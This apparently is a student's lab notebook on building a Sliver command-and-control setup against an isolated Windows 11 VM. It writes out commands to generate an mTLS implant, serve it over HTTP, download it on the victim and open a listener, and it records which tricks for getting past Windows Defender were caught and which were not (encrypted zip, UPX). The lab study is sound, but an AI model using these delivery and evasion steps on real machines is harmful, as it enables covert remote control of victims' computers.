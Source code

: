 ## Our work assumes post-exploitation

### Notes for things I learned through the process:
- A C2 is only useful after an attacker has **already** compromised a target machine, and is able to traverse through the target to set up the implant for the C2 framework. This is because a C2 is only used to ensure future long-term access without needing to exploit the target each time.
- The implant must be running for the listener on the C2 server to connect to it.
- Windows Defender will detect implants and block them from running (this could be something to look at).
- Persistence: we need a way for the implant to keep running even after reboots or something else that causes it to stop.
- An implant that reconnects after reboots is essentially a backdoor. C2s relies on implants/backdoors but a backdoor does not necessarily involve a C2.
- Windows Defender is an AV, not a full EDR system.
- For Sliver, there are session implants and beacon implants. Session implants maintain a persistent connection, are ready to go, and are less stealthy. Beacon implants check in periodically, making them the stealthier option.
  
---

### Feb 14
I decided to use Windows 11 image for victim machine due to its wide usage in the world. Virtual machine so that it is in a controlled environment. I also changed the victim machine (w11vi) network settings to "Host-Only" by changing the Adapter to Host-Only Adapter. This is to keep the VM offline but open to C2 communication. I wanted to keep the VM offline because Caeland brought to my awareness that connecting the victim device to the internet opens it up to attacks from actual attackers and that may affect my host machine, which I didn't want. So by setting my victim's machine IP to 192.168.56.100 (192.168.56.x range since subnet mask is (255.255.255.0 (/24)) ) and its default gateway to 192.168.56.1 (my host IP), so that the host (C2 server) and victim can communicate.

---

### Setting up Sliver
1. Clone this repo: `git clone --recursive https://github.com/ChamberZ1/Sliver.git`
2. Build Sliver: `cd sliver && make`
   
---

### Feb 17
Testing out Sliver, I first ran the server: `sudo ./sliver-server`. I created an implant using `generate --mtls 192.168.56.1`, where:
- `--mtls` specifies to use Mutual TLS encryption for communication. From the Sliver documentation: "you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`." It is recommended to use `--mtls` or `--wg` where possible 
- Note: `192.168.56.1` is not my internet IP, but the IP of the VirtualBox Host-Only Adapter which acts as a gateway for the Linux (Host) machine and Windows (Victim) virtual machine to communicate.

The implant was saved to `/home/charlitos/sliver/`. I created an HTTP server using `python3 -m http.server 8080` to send the file to the Windows machine. I used `Invoke-WebRequest -Uri http://192.168.56.1:8080/implant_name.exe C:\Users\Public\any_name.exe` to receive the file on the Windows machine. However, Windows Defender was blocking it and so I temporarily disabled Windows Defender. Then, I ran the implant `any_name.exe` and went back to Sliver on the host device.

I set up a listener on Sliver using `mtls --lhost 192.168.56.1 --lport 443`. I used port 443 to try and blend in with normal internet traffic. 

I had to change some firewall permissions on my Linux device (specifically port 443 and 8080 from 192.168.56.100) to allow communication and file transfer between host and victim machine.

So it worked, I was able to execute commands on the victim machine, and open the shell to do more. I did receive a warning regarding "bad OPSEC" when I opened a shell. This basically means that what I did was easily detectable, so that's something I could look into.

Also, the implant works only as long as it is a running process. 

---

### Feb 28
My Objective now is to modify the implant in some way to get it onto the Windows machine without Defender noticing. If we can do that, we will then see if we can hit Defender with something to get it to let default implants to slip by.

So far, we are able to transfer the file onto Windows without Defender flagging it as long as it is zipped or using upx.

Modifying the implant: 
- I attempted to `echo "rndmdata123" >> implant.exe`, *insert reason and what this does*, this did not work.

### March 4
Updates:
I'm going through a bunch of websites and blogs to see how others are doing this. Plan is to use stagers


Notes:

$ generate beacon --mtls -e
Generate beacon implant, using --mtls, -e for including evasion techniques
GOT FLAGGED

Base64 Encoding:
$ base64 implant. exe > implant.b64
> certutil -decode implant.b64 implant.exe
GOT FLAGGED

Zip Files:
GOT FLAGGED

Encrypted Zip File:
DID NOT GET FLAGGED UPON EXTRACTION

FTP:
Chose not to proceed because it required modifying Firewall settings to allow File Transfer Program to run properly. (See FTP image.png in pictures).
"I would avoid modifying the Windows Firewall unless absolutely necessary. Any firewall rule changes could leave forensic traces, making detection more likely. Instead, I would use more covert methods to transfer and execute the implant."

---

Stagers and Process injection:
A stager is a small initial payload that retrieves a larger payload (a Sliver implant) from a remote C2 server. It acts as a first-stage loader that downloads and executes the actual malware. 

Process injection is a technique where malicious code is injected into a legitimate process (like explorer.exe or notepad.exe) so that the implant runs inside the trusted process instead of creating its own malicious-looking process.

Process injection itself won't bypass Windows Defender, but it makes detection harder. Whether Windows Defender catches the Sliver implant depends on how the stager and beacon are delivered and executed.

"Sliver implants provide some basic obfuscation but they are not designed for AV or EDR evasion." https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

---

Executing in Memory:
This means running code without writing it to disk. Instead of saving a file like .exe to the system and then running (Disk-based execution), the code is loaded directly into memory (RAM) and executed from there. This is a common evasion technique.

Can be detected by Memory-based monitoring.

Often used with processing injection to evade detection.

